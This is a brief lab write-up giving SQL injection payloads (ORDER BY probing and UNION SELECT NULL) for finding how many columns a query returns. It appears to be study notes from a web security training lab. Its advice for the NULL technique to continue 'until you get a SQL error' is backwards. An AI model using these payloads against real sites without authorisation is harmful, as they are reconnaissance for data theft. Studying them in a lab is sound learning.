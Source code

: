 # Determining the number of columns required

Vadim Polovnikov | October 30, 2020
> Lab: **_SQL injection UNION attack, determining the number of columns returned by the query_**

---

Two ways of examining a number of columns used by a database:

1. Using ORDER BY clause

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
/*etc*/
```

Use the technique untill you get a SQL error.

2. Injecting NULL values

```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL FROM DUAL /* in case of an Oracle db
' UNION SELECT NULL, NULL, NULL --
/*etc*/
```

Use the technique untill you get a SQL error.

**Using both techniques you can identify the number of columns the database have.**
